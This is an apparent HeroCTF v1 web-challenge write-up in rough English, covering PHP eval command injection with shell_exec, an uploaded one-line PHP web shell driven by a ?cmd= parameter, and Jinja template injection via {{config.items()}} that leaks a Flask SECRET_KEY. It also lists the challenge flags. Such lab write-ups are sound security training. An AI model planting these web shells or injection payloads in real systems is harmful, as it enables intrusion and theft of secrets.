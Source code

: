 #Cyber-Security Training
#j3kyll
#PATH :~/Vidéos/Hyd3-100Days/Ted_2.0/Security-Advanced/V? heroctf/HeroCTF_v1/web

V-WEB
1-
For this challenge  a calculator is used and when you write a operations the answers is display but when you don't write a operations and you validate one error appears ,the error concerned 'eval()' functions

`shell_exec("ls")`  for used a shell in the code 
one file is show 
calculator.php
` shell_exec("cat calculator.php")`

 ```php
<?php
  // HeroCTF{us1ng_3v4l_functi0n_1s_b4d}
?>
```

2-
Here you upload a code for to have access a shell
```php
<?php
  print_r(shell_exec($_GET['cmd']));
?>
```

you can to walk in a tree structure with `?cmd=` until to find the flag 
`http://heroctf.fr:6200/tmp/shell.php?cmd=cat+/dossiersupersecret/flag.txt`
3-In this challenge the web site we is given and you can see the source code of site 
the flag is into 

4-Introduction a Jinja exploitation
When you going in the site ,try the jinja injection 


write the tentative operations bizarre   
Ex:`{{3*'3'}}{{3*3}}`

Aif the result is 3339 so write:

`{{config.items()}}` and the source code appears

```php
Hello dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, &#39;j1nj4_1nj3c710n_700_345y_4_m3_10114320&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])
```

flag:j1nj4_1nj3c710n_700_345y_4_m3_10114320








